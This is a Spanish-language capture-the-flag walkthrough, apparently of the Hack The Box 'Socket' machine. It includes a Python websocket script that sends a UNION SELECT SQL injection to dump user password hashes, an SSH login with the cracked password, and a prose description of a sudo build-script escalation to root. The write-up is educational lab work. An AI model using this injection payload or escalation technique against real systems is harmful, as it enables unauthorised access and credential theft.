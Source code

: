 ```python
#!/usr/bin/python3
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT username,password,"3","4" FROM users;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```
```bash
❯ python3 username.py
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "3", "downloads": "4"}}
```
Buscado mas profundamente logre encontrar una contraseña en forma de *hash* que decondeare via web.
![hash]({{'/assets/img/Socket/hash.png' | relative_url}})ç

Nos da una contraseña, que probare por ssh por el puerto 22, que vi en el reporte de **nmap**

```bash
❯ ssh tkeller@10.10.11.206
The authenticity of host '10.10.11.206 (10.10.11.206)' can't be established.
ECDSA key fingerprint is SHA256:2IX4mncu1XcUcTBw8Aa8kcZWxeVixqXf/qpnyptPp/s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.206' (ECDSA) to the list of known hosts.
tkeller@10.10.11.206's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)

tkeller@socket:~$ whoami
tkeller
tkeller@socket:~$ hostname -I
10.10.11.206 dead:beef::250:56ff:feb9:1cb0 
tkeller@socket:~$ ls
user.txt
tkeller@socket:~$ cat user.txt 
907**************************27a
tkeller@socket:~$ 
```
Tenemos conexion y podemos visualizar la **Flag** de bajos privilegios.

```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```
A continuacion con el comando **sudo -l** se puede ver que podemos ejecutar el escript indicado con privilegios de **root**
Despues de analizarlo, con un simple comando **echo** con una sentecia en **python** copiamos **/bin/bash** a un archivo con extension **.spec** 
Y consecutivamente ejecutamos el *script con privilegios de root*, para hacer un build al archivo que henmos creado, y nos da por consiguiente una *shell bash* con privilegios de **root**
